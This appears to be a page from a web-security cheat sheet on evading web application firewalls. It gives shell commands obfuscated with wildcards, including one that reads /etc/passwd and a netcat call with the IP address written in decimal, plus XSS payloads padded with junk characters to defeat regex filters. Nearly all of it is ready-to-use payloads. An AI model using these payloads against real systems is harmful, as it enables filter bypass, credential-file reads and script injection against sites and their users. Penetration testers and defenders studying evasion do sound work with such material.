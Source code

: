 ### Wildcard Obfuscation

{% hint style="info" %}
* Global patterns are used by various command-line utilities to work with multiple files.
* We can change them to run system commands.
{% endhint %}

#### Examples

```
# basic request
/bin/cat /etc/passwd

# obfuscated payload
/???/??t /???/??ss??

# used chars
/ ? t s

# basic request
/bin/nc 127.0.0.1 443

# obfuscated payload
/???/n? 2130706433 443

# used chars
/ ? n [0-9]
```

### Junk Characters

{% hint style="info" %}
* Simple payloads get filtered out easily by WAF.
* Adding some **junk** chars helps **avoid detection** (only specific cases ).
* This technique often helps in confusing regex-based firewalls.
{% endhint %}

#### Examples

```
# basic request
<script>confirm()</script>

# obfuscated payload
<script>+-+-1-+-+confirm()</script>

# basic request
<BODY onload=confirm()>

# obfuscated payload
<BODY onload!#$%&()*~+-_.,:;?@[/|\]^`=confirm()>

# basic request
<a href=javascript;alert()>ClickMe

# bypassed technique
<a aa aaa aaaa aaaaa aaaaaa aaaaaaa aaaaaaaa aaaaaaaaaa href=j&#97v&#97script&#x3A;&#97lert(1)>ClickMe
```
